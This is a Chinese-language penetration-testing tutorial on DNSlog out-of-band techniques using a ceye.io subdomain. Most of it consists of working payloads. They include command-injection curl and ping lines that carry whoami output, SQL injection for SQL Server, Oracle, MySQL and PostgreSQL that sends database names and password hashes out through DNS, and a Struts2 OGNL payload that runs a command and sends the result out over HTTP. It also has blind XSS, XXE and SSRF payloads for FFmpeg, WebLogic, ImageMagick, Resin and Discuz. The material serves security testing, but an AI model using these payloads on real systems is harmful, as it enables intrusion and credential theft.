








# 渗透测试技巧-dnslog

在渗透环境时，我们经常会遇到疑似命令执行还有些bool注入和延时注入，但是都没有回显。

命令执行我们可能会用各种各样的请求来判断是否存在命令执行，对于bool注入和延时注入这两种注入类型的缺点就是速度慢，效率低，一个是基于对错判断数据，一个是基于访问时间来判断数据，dnslog的出现就正好弥补了这样的缺陷。

## 0x00 原理

```text
    **首先需要有一个可以配置的域名，比如：ceye.io，然后通过代理商设置域名 ceye.io 的 nameserver 为自己的服务器 A，然后再服务器 A 上配置好 DNS Server，这样一来所有 ceye.io 及其子域名的查询都会到 服务器 A 上，这时就能够实时地监控域名查询请求了，图示如下。**
```



DNS在解析的时候会留下日志，咱们这个就是读取多级域名的解析日志，来获取信息

简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。

## 0x01 利用

首先给大家分享[一个免费的dnslog平](http://ceye.io/)台\(ps:要是有cloudeye激活码的可以忽略\)。

平台会给每一个会员分一个二级域名`xxx.ceye.io`。

简单的来说，dnslog平台自己保留dns的日志信息，并对应每个会员一个二级域名，这样我们可以通过

```text
ping test.xxxxx.ceye.io
```

这样的多级域名方式，把我们需要返回的信息链接到url中，然后分析日志，test部分就是我们得到的信息。

### 0x01.1 命令执行

在我们找到命令执行漏洞的时候，我们可以执行这样的命令判断:

```text
 linux:
 curl http://ip.port.domain.ceye.io/`whoami`
 ping `whoami`.ip.port.domain.ceye.io
 ping %USERNAME%.domain.ceye.io
```

这时候就可以去dnslog瓶体查看到信息

### 0x01.2 SQL注入

#### **SQL Server**

存储程序用于获取所有文件夹的列表和给定文件夹内部的子文件夹。

```text
DECLARE @host varchar(1024);
注册一个名为@host的变量，类型为varchar。
SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';
获取db_name()然后转换成varchar类型，然后吧获取的db_name()返回值拼接到dnslog平台给我们的子域名里面，然后赋值给@host变量。
EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');
列远程主机的foobar$目录,由于是远程主机，所以会做一个dns解析，这样我们的dns平台就能得到日志了
http://xxxx.com.cn/?Id=123';DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');--
```

#### **Oracle**

UTL-INADDR包用于互联网的寻址–诸如检索本地和远程主机的主机名和IP的地址:

```text
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```

#### **MySQL**

MySQL的函数LOAD\_FILE\(\)读取文件内容并将其作为字符串返回：LOAD\_FILE\(\):

```text
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc'));
```

#### **PostgreSQL**

PostgreSQL的声明COPY用于在文件系统的文件和表之间拷贝数据:

```text
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```



### **0x01.3 XSS（无回显）**

通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：

payload:&gt;&lt;img src=[http://xss.xxxx.ceye.io/aaa&gt;让src请求我们的dnslog平台](http://xss.xxxx.ceye.io/aaa>让src请求我们的dnslog平台)

### 0x01.4 ssrf\(无回显\)

payload:

```text
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

### 0x01.5 Struts2

```text
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}

xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

### 0x01.6 FFMpeg

```text
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

### 0x01.7 Weblogic

```text
xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

### 0x01.8 ImageMagick

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

### 0x01.9 Resin

```text
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

### 0x01.10 Discuz

```text
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```

### 0x01.11 xxe\(无回显\)

参考[https://www.secpulse.com/archives/49194.html](https://www.secpulse.com/archives/49194.html)

